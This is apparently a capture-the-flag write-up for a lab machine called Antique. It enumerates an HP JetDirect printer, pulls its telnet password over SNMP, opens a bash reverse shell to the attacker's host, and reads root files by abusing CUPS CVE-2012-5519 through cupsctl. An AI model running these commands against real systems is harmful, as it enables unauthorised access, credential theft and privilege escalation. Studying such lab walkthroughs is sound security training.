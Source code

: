 # Antique - Linux, easy
## IP: 10.10.11.107

### Enumeration
```
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
```

If we connect to the host using telnet, it will print **HP JetDirect** and then asks for user input, probably a password.
Since we do not know thme, we can try a UDP scan to check if there is something else.

```
PORT     STATE         SERVICE      VERSION
53/udp   closed        domain
67/udp   closed        dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  open          snmp         SNMPv1 server (public)
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m
```

Port 161/udp seems the only one open!

### SNMP (Simple Network Managemen Protocol)
SNMP is a way for different devices on a network to share information with one another. It allows devices to communicate even if the devices are different hardware and run different software.

SNMP has a simple architecture based on a client-server model:
1. The servers, called **managers**, collect and process information about devices on the network;
2. The clients, called **agents**, are any type of device or device component connected to the network. They can include not just computers, but also network switches, phones, printers, and so on.

While the SNMP architecture is simple, the data hierarchy the protocol uses can seem complicated if you’re not familiar with it. Fortunately, it’s relatively simple once you understand the philosophy behind it.
To provide flexibility and extensibility, SNMP doesn’t require network devices to exchange data in a rigid format of fixed size. Instead, it uses a tree-like format, under which data is always available for managers to collect.
The data tree consists of multiple tables (or branches), which are called **Management Information Bases**, or **MIBs**. MIBs group together particular types of devices or device components. Each MIB has a unique identifying number, as well as an identifying string. Numbers and strings can be used interchangeably (just like IP addresses and hostnames).
Each MIB consists of one or more nodes, which represent individual devices or device components on the network. In turn, each node has a unique Object Identifier, or OID. The OID for a given node is determined by the identifier of the MIB on which it exists combined with the node’s identifier within its MIB.
This means OIDs take the form of a set of numbers or strings (again, you can use these interchangeably). An example is **1.3.6.1.4.868.2.4.1.2.1.1.1.3.3562.3**.
Written with strings, that OID would translate to:
**iso.org.dod.internet.private.transition.products.chassis.card.slotCps.cpsSlotSummary.cpsModuleTable.cpsModuleEntry.cpsModuleModel.3562.3.**
Using the OID, a manager can query an agent to find information about a device on the network. For example, if the manager wants to know whether an interface is up, it would first query the interface MIB (called the IF-MIB), then check the OID value that reflects operational status to determine whether the interface is up.

### Obtaining User

Exploit taken from [Getting a JetDirect password remotely using the SNMP vulnerability](http://www.irongeek.com/i.php?page=security/networkprinterhacking).

It seems that the device password for many JetDirects is stored in almost plain text and is accessible via SNMP using the read community name. Most folks leave their SNMP community name as "public" but even it has been change it's likely sniffable. Also try "internal" as the community name as this is the default write community name on many JetDirects. Reports are that on some JetDirects, even if you change the community name, "internal" will still work.

We can recover the password with the following command:
```
snmpwalk -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

The output is the following set of "bits":
```
BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

that we can convert from hexadecimal to chars using python3: `[chr(int(b, 16)) for b in bits.split()]`.
Password: **P@ssw0rd@123!!123**.

Now, after successfully log in using telnet, we can try to spawn a reverse shell.
Setup a python server by creating a `www` directory, and executing the following command `echo "bash -i >& /dev/tcp/<my_IP>/<port> 0>&1"`.
Then start the server with `python3 -m http.server 80` and a netcat listener on the specified port.
Now we should have granted user access on the target.

### From User to Root
We are user *lp*, and checking the groups we are in group **lpadmin**.

lpadmin means CUPS printers (Commond Unix Printix System), which allows the system on which it is configured to accept prints from other clients and perform other actions.

If we execute `curl http://localhost:631` and we save the file, opening it on a browser allows us to (better) see the version of CUPS, which in this case is 1.6.1.

This version is vulnerable to **CVE-2012-5519**, which allows members of the lpadmin group to make changes to the cupsd.conf configuration, which can specify an Error Log path.
When the user visits the Error Log page in the web interface, the cupsd daemon (**running with setuid root**) reads the Error Log path and echoes it as plaintext.

Execute these two commands to obtain the root flag.
```
cupsctl ErrorLog=/root/root.txt
curl http://localhost:631/admin/log/error_log
```

Notice that we can also perform different actions, like obtaining a reverse shell as user root, but for the sake of this machine we just need the flag.
